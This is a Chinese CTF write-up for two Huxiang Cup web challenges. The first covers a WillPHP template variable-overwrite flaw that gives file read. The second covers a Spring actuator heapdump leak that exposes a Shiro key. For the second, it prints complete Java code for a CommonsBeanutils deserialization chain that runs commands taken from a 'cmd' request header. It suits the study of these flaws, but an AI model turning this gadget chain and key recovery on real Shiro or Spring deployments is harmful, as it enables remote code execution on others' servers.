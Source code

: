 # 湖湘杯WP



## web1



前半段是一个变量覆盖，题目给出assign其实已经很显眼了，要结合view一起看，这个类似TP的那个变量覆盖

我们可以先看到View这个文件的代码：

```php
<?php
/**
 * 框架视图类
 * @copyright 2020-2021 WillPHP
 * @author NoMind<24203741@qq.com/113344.com>
 * @version WillPHPv2
 * @since 2021-09-16
 */ 
namespace wiphp;
//defined('WPHP_URI') or die('Access Denied');
class View {
	private static $vars = [];
	private function __construct() {}
	private function __clone() {}
	public static function assign($name, $value = null) {
		if ($name != '') self::$vars[$name] = $value;
	} 
	private static function getViewFile($file = '') {
		$path = __MODULE__;
		if ($file == '') {
			$file = __ACTION__;
		} elseif (strpos($file, ':')) {
			list($path, $file) = explode(':', $file);
		} elseif (strpos($file, '/')) {
			$path = '';
		}
		$path = strtolower($path);
		$pfile = ltrim($path.'/'.$file, '/').'.html';		
		if (!THEME_ON) {
			$vfile = PATH_VIEW.'/'.$pfile;
		} else {
			$vfile = PATH_VIEW.'/'.__THEME__.'/'.$pfile;
			if (file_exists($vfile)) {
				$vfile = PATH_VIEW.'/default/'.$pfile;
			}
		}
		return $vfile;			
	}	
	public static function fetch($file = '', $vars = []) {
		if (!empty($vars)) self::$vars = array_merge(self::$vars, $vars);			
		$viewfile = self::getViewFile($file);
		if (file_exists($viewfile)) {
			array_walk_recursive(self::$vars, 'self::parseVars'); //处理输出
			define('__RUNTIME__', round((microtime(true) - START_TIME) , 4));	
			Template::render($viewfile, self::$vars);
		} else {
			App::halt($file.' 模板文件不存在。');
		}
	}	
	//删除反斜杠
	private static function parseVars(&$value, $key) {
		$value = stripslashes($value);
	}
}
```



当我们调用assign和view的时候其实分别会调用到fetch这两个函数，当我们调用assign对vars进行了一次赋值，而在调用fetch的时候会进入到Template::render($viewfile, self::$vars);当中

跟进两次之后会在Template找到如下：

![image-20211115115049058](https://gitee.com/yyssllz/pic/raw/master/image-20211115115049058.png)



很明显的变量覆盖，下面还紧跟了一个cfile，这样的话前半段很显然就是用cfile可以达成任意文件读取的效果

![image-20211115115841088](https://gitee.com/yyssllz/pic/raw/master/image-20211115115841088.png)

，后半段利用pearcmd即可，这里在我[别的文章](https://github.com/ysllz/Blog/issues/15)里面已经写过了故不再赘述了



## web2

又又又是JAVA，又是不写前端的JAVA，和深育杯那个一样我都快看吐了，因为靶机已经关了所以基本只能靠口述了

pentest in Autumm因为pom中存在这个依赖，可以访问到actuator路由，之后能够找到heapdump，利用非授权访问吧内存文件dump下来 

```
;/actuator/heapdump
 https://www.cnblogs.com/icez/p/Actuator_heapdump_exploit.html 
```

 
 ![img](https://gitee.com/yyssllz/pic/raw/master/KsMoxv6EHkh12xgg.png!thumbnail) 能够找到key：![img](https://gitee.com/yyssllz/pic/raw/master/xt8Gj9x7Y8sbgbFz.png!thumbnail)跟着文章复现一下得到：POtxXgM0EC42xSvJ4CZQDw== 网上找了工具一把锁：https://github.com/j1anFen/shiro_attack![img](https://uploader.shimo.im/f/AiWFxk0AA3MFH2ch.png!thumbnail?accessToken=eyJhbGciOiJIUzI1NiIsImtpZCI6ImRlZmF1bHQiLCJ0eXAiOiJKV1QifQ.eyJhdWQiOiJhY2Nlc3NfcmVzb3VyY2UiLCJleHAiOjE2MzY5NDkxMDgsImciOiJjeXhjUWczcXd2NlJKZDNKIiwiaWF0IjoxNjM2OTQ4ODA4LCJ1c2VySWQiOjI4MDg0NzYzfQ.cAi3GvNBuaVGb_flJ82-tPtWB6IBiO2-hr-76RBX__Y)

后半段除了一把梭其实也可以用深育杯的🔒出来，为什么呢，因为是这道题目一样的，有CB链但是没有CC，这样的话应该也可以，但是毕竟可惜的是当时交完去看XSS了没有功夫再试试看了



```java
package com.cb;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.shiro.codec.Base64;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

import java.util.Comparator;
import java.util.PriorityQueue;
//byte[] code = ClassPool.getDefault().get("exp").toBytecode();
public class cb {
    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }

    public static void main(String[] args) throws Exception{
        //创建TemplateImpl 对象动态加载字节码
        byte[] code = ClassPool.getDefault().get("com.cb.exp").toBytecode();
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj,"_name","HelloTemplatesImpl");
        setFieldValue(obj,"_class",null);
        setFieldValue(obj,"_tfactory",new TransformerFactoryImpl());
        setFieldValue(obj,"_bytecodes",new byte[][]{code});

        //创建BeanComparator
        Comparator comparator = new BeanComparator(null,String.CASE_INSENSITIVE_ORDER);

        //创建PriorityQueue实例
        PriorityQueue priorityQueue = new PriorityQueue(2,comparator);
        priorityQueue.add("1");
        priorityQueue.add("2");
        //设置属性
        setFieldValue(comparator,"property","outputProperties");
        setFieldValue(priorityQueue, "queue",new Object[]{obj,obj});

        ByteArrayOutputStream baor = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baor);
        oos.writeObject(priorityQueue);
        oos.close();
//        System.out.println(new String(Base64.getEncoder().encode(baor.toByteArray())));
        byte[] key = Base64.decode("POtxXgM0EC42xSvJ4CZQDw==");
        AesCipherService aes = new AesCipherService();
        ByteSource ciphertext = aes.encrypt(baor.toByteArray(), key);
        System.out.printf(ciphertext.toString());

    }
}

```

exp为：

```java
package com.cb;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.lang.reflect.Method;
import java.util.Scanner;

public class exp extends AbstractTranslet {
    static {
        try {
            Class c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.RequestContextHolder");
            Method m = c.getMethod("getRequestAttributes");
            Object o = m.invoke(null);
            c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.ServletRequestAttributes");
            m = c.getMethod("getResponse");
            Method m1 = c.getMethod("getRequest");
            Object resp = m.invoke(o);
            Object req = m1.invoke(o); // HttpServletRequest
            Method getWriter = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.ServletResponse").getDeclaredMethod("getWriter");
            Method getHeader = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.http.HttpServletRequest").getDeclaredMethod("getHeader",String.class);
            getHeader.setAccessible(true);
            getWriter.setAccessible(true);
            Object writer = getWriter.invoke(resp);
            String cmd = (String)getHeader.invoke(req, "cmd");
            String[] commands = new String[3];
            String charsetName = System.getProperty("os.name").toLowerCase().contains("window") ? "GBK":"UTF-8";
            if (System.getProperty("os.name").toUpperCase().contains("WIN")) {

                commands[0] = "cmd";
                commands[1] = "/c";
            } else {

                commands[0] = "/bin/sh";
                commands[1] = "-c";
            }
            commands[2] = cmd;
            writer.getClass().getDeclaredMethod("println", String.class).invoke(writer, new Scanner(Runtime.getRuntime().exec(commands).getInputStream(),charsetName).useDelimiter("\\A").next());
            writer.getClass().getDeclaredMethod("flush").invoke(writer);
            writer.getClass().getDeclaredMethod("close").invoke(writer);
        }
        catch (Exception e){

        }

    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

